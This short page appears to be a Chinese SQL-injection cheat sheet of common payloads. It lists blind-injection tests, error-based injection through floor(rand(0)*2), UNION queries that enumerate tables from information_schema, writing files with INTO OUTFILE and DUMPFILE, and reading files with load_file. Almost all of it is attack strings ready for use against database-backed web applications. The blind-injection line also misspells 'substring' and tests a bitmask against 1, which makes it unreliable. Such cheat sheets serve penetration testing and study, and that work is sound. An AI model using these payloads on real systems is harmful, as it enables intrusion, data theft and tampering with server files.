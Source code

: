 常用Payload
================================


盲注

::

    ascii(subtring(str,pos,length)) & 32 == 1

报错注入

::

    select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;


获取表名

::

    union select table_name,2,3,4 from information_schema.tables where table_schema = database()

写文件

::

    union select 1,1,1 into outfile '/tmp/demo.txt'
    union select 1,1,1 into dumpfile '/tmp/demo.txt'

dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏

读文件

::

    select @@datadir
    select load_file('databasename/tablename.MYD')

